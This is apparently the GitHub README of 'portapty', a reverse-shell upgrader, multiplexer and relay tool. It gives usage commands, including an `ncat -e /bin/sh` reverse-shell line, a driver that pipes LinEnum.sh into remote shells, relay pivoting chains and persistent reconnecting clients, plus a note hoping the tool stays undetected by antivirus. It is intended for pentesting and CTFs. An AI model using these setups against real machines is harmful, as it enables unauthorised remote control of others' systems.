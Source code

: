 # portapty

## What?
This is a portable pseudoterminal reverse shell upgrader and multiplexer with daemonisation
### What???
Portable: works on any linux version that can run this elf type (it's all statically linked and posix compliant)

Pseudoterminal: you can Control-C without killing the shell

Reverse shell: I haven't made it support bind shells yet

Upgrader: When a normal shell connects to it and doesn't try to TLS handshake with it,
it will be upgraded in a posix-compliant manner (this should even work on Linux from scratch boxes using `dash`)

Multiplexer: Multiple shells can connect at once

Daemonisation: The upgraded reverse shells get completly detached from the parent process

## Usage
```
portapty {client|server|keygen|relay} OPTIONS
Options:
    client: [cert CERTHASH] to IP PORT [to IP PORT]...
    server: [cert CERTFILE] [key KEYFILE] [driver CMD] [cmd CMD] [pty {on|off}] [persist {on|off}] bind IP PORT [{bind|advert} IP PORT]...
    keygen: [cert CERTFILE] [key KEYFILE]
    relay:  bind IP PORT to IP PORT [{bind|to} IP PORT]...
```
### Server
A simple invocation would be `portapty server bind :: 42069`. This hosts a server on port 42069 that will accept
both standard reverse shells on all IPv4 and v6 addresses (dual to IPv6 dual stacking) and portapty clients. 

On connection (like by `ncat -e /bin/sh :: 42069`), you will see messages like:
```
[portapty] SuperSecureServer ([::1]:57388) available on /dev/pts/63
```
If you run `screen /dev/pts/63` on this created pty, you will be able to interact with it fully, as if it were an ssh session.

This will, however, tell standard reverse shells to connect to `[::]:42069`, which will only work on localhost. If you want to bind to a specific ip, you can try
```
portapty server bind 10.0.0.1 42069
```
Which, if you can bind to 10.0.0.1, will bind to just that v4 address, and tell all reverse shells to upgrade and connect to that endpoint.

For more customisation, you can use the `advert` options, which will give a list of endpoints that clients can connect to
```
portapty server bind :: 42069 advert 10.0.0.1 31337
```
This will tell upgraded clients to reconnect to 10.0.0.1:31337 (but NOT `[::]:42069`).

If you had a script you wished to run on the remote, you could try the folowing:

```sh
portapty server driver 'cat >&2&cat /tmp/LinEnum.sh;echo sleep 1;echo exit;wait' cmd bash bind :: 42069
```

This is good demonstration of the features provided to drivers. Let's break down the shell command argument for driver:
* `cat >&2 &` will grab the output of the remote shell, and pass it to stderr, which is then printed to the server terminal, and then move to the background
* `cat /tmp/LinEnum.sh` will send the script `/tmp/LinEnum.sh` to the remote shell
* `echo sleep 1` sends the command `sleep 1` to the remote shell, giving us time to flush the output before disconnecting
* `echo exit` will tell the remote shell to close
* `wait` will wait for the cat command to finish, which will be when the remote closes
We also elect to use `bash` rather than the standard shell with the system, which will make most scripts run better. Note that some extra things have happened due to our usage of `driver`:
* `pty off` is implied (can be undone with a `pty on` after the `driver CMD` option), so that this looks like a normal pipeline
* `persist off` is implied (can be undone with a `persist on` after the `driver CMD` option), so that the client won't keep reconnecting

### Client
It is rather irregular to invoke the client directly, but if you are particularly worried about security, or are working with an arbitrary upload vulnerability, this could be helpful. 

For a simple connection WITHOUT verifying the server, you can use just `portapty client to :: 42069`, but for securing it, you can use:
```
portapty client cert iITKuu8FgIgarNJCo/4mG6mbN0I/p6kytpfTVvB+PCo= to :: 42069
```
This will check that the certificate SHA2-256 hash is `iITKuu8FgIgarNJCo/4mG6mbN0I/p6kytpfTVvB+PCo=`, and fail if it isn't.

### Keygen
If you have an unstable computer/connection, or are trying some HA system, you may wish to use the `keygen` option. An example is the following:

```
portapty keygen key portapty.key cert portapty.crt
```

This will print the fingerprint as well, so that you can prepare clients before starting the server

The server can be to to use the certificate and key like so:

```
portapty server key portapty.key cert portapty.crt
```
### Relay and expose
This is one of the cooler features of portapty. This acts as a simple TCP forwarder, and so allows pivoting with a central server:

```sh
# Main server
portapty server key portapty.key cert portapty.crt bind 10.0.0.1 42069
# Pivot server
portapty relay bind 192.168.0.1 42069 to 10.0.0.10 42069
# Target server
portapty client cert FinGeRpRInt= to 192.168.0.1 42069
```

Since the client is encrypted end-to-end, this unencrypted relay usage is secure. However, `relay` could also be used as a port forwarder, which would not have encryption. I'm not sure how to encrypt this well bidirectionally: feel free to submit a pull request!

### High availability
The release client has a `while(1)` loop to stop temporary disconnects from messing up your network, and paired with multiple endpoint specifications, this can be used to achieve a very resiliant network.

```
# Relay to the first accepting server
portapty relay bind :: 42069 to 10.0.0.1 42069 to 10.0.0.2 42069
# Connect to the first server that accepts us
portapty client to 10.0.0.1 42069 to 10.0.0.2 42069
# Tell upgraded clients to try multiple addresses (note the repeated ep in bind and advert)
portapty server bind 10.0.0.1 42069 advert 10.0.0.1 42069 advert 10.0.0.2 42069
```

## Disclaimer
Please don't do anything stupid with this (i.e. anything outside pentesting and ctfs). 
It isn't currently on any virus scanners, and I would prefer it to stay that way. 
It has a easy to detect signature, so it ain't stealthy.
